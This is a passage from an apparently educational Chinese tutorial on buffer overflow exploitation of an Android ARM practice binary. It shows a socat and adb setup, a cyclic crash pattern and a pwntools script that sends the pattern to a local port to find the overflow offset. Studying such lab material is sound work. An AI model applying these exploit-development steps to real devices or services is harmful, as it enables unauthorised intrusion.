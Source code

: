 ```
#!bash
ndk-build
adb push libs/armeabi/level6 /data/local/tmp/
adb shell
cd /data/local/tmp/
./socat TCP4-LISTEN:10001,fork EXEC:./level6
adb forward tcp:10001 tcp:10001 
```

现在我们尝试连接一下：

```
#!bash
$ nc 127.0.0.1 10001
Hello, World 
```

发现工作正常。OK，那么我们开始进行BOF吧。

和之前的x86一样，我们先用pattern.py来确定溢出点的位置。我们用命令：

```
#!bash
python pattern.py create 150 
```

来生成一串测试用的150个字节的字符串：

```
#!bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9 
```

然后我们写一个py脚本来发送这串数据。

```
#!python
#!/usr/bin/env python
from pwn import *

#p = process('./level6')
p = remote('127.0.0.1',10001)

p.recvuntil('\n')

raw_input()

payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9"

p.send(payload)

p.interactive() 
```

但因为我们需要获取崩溃时pc的值，所以在发送数据前，我们先使用gdb加载上level6。
